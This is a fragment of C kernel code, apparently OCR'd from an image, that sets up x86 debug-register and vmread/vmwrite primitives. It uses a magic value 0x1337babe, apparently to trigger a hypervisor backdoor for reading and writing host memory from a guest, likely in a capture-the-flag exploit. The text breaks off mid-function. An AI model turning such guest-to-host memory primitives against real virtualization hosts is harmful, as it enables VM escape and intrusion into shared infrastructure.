 ```c
    case 6:
        asm("mov %%db6, %0" :"=r" (val));
        break;
    case 7:
        asm("mov %%db7, %0" :"=r" (val));
        break;
    default:
        BUG();
    }
    return val;
}

static __always_inline void native_set_debugreg(int regno, unsigned long value)
{
    switch (regno) {
    case 0:
        asm("mov %0, %%db0"    ::"r" (value));
        break;
    case 1:
        asm("mov %0, %%db1"    ::"r" (value));
        break;
    case 2:
        asm("mov %0, %%db2"    ::"r" (value));
        break;
    case 3:
        asm("mov %0, %%db3"    ::"r" (value));
        break;
    case 6:
        asm("mov %0, %%db6"    ::"r" (value));
        break;
    case 7:
        asm("mov %0, %%db7"    ::"r" (value));
        break;
    default:
        BUG();
    }
}

static noinline uint64_t read_cr3(void) {
    uint64_t val = 0;
        asm("mov %%cr3, %0" :"=r" (val));
    return val;
}

static noinline uint64_t read_guy(unsigned long offset) {
    uint64_t val = 0;

    uint64_t vmread_field = 0;
    uint64_t vmread_value = 0;

    native_set_debugreg(0, 0x1337babe);
    native_set_debugreg(1, offset);
    asm volatile( "vmread %[field], %[output]\n\t"
              : [output] "=r" (vmread_value)
              : [field] "r" (vmread_field) : );
    val = native_get_debugreg(2);

    return val;
}

static noinline void write_guy(unsigned long offset, unsigned long value) {
    uint64_t vmwrite_field = 0;
    uint64_t vmwrite_value = 0;
```